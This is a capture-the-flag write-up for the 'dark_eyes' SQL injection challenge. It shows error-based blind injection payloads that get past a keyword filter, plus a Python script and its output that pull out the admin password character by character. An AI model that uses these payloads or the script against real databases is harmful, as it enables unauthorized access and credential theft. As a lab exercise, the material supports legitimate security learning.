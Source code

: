 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 22
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cbd65f64-4c89-44f4-b041-b362993f22dd)

We are provided with the SQL query:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters out the following:
- `col`
- `if`
- `case`
- `when`
- `sleep`
- `benchmark`


This level also exits when an error is invoked instead of revealing the error message.

## Error-based Blind SQL Injection

### ERROR: Subquery returned more than 1 value error

In SQL the subquery can only return one value.

```sql
## Valid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1) -- -'

## Invalid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2) -- -'
```

This is the error that we will be exploiting.

### Revealing the password length

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -'
```

The above SQL query includes the subquery `(SELECT 1 UNION SELECT 2 where id='admin' and length(pw)=1)` which returns two values if the `length(pw)=1` for `id='admin'`. This would invoke an error and cause the challenge to exit.

![2](https://github.com/Kunull/Write-ups/assets/110326359/29f2c0b3-d400-4043-8ce0-5a0c461edf1d)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the length of the `pw` for `id='admin'` is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/fc84a7c5-6e2b-48c9-98e0-3c568896f8ed)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the length of `pw` for `id='admin'` is 8. This caused an error, causing the challenge to exit.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/9b457365-e10b-441b-8118-a7b79af680c8)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the first character of the `pw` for `id='admin'` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e62cdc7f-f0c7-4e9e-9177-e345970208a6)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the first character of `pw` for `id='admin'` is ``5`. This caused an error, causing the challenge to exit.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
5a2f5d3c
```

### Script

```python title="dark_eyes_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'rvrb7p6vumnf7hu5ukb8f70gj8'}
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
password_length = 0

for x in range(0, 100):
  payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)={x}) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "prob_dark_eyes" not in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, {index}, 1)='{char}') -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "prob_dark_eyes" not in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\dark_eyes_script.py

[!] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
[!] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+length%28pw%29%3D8%29+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%275%27%29+--+-
[+] Character at index 1: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 2, 1)='a') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%27a%27%29+--+-
[+] Character at index 2: a

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 3, 1)='2') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%272%27%29+--+-
[+] Character at index 3: 2

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 4, 1)='f') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27f%27%29+--+-
[+] Character at index 4: f

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 5, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%275%27%29+--+-
[+] Character at index 5: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 6, 1)='d') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27d%27%29+--+-
[+] Character at index 6: d

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 7, 1)='3') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%273%27%29+--+-
[+] Character at index 7: 3

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 8, 1)='c') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27c%27%29+--+-
[+] Character at index 8: c

[!] Extracted password: 5a2f5d3c
[!] Final payload: ?pw=5a2f5d3c
```


If we provide the following URI parameter:

```
?pw=5a2f5d3c
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='5a2f5d3c'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/e6a9c9b4-8d34-4c6a-9bf4-3a9538a4cb5d)
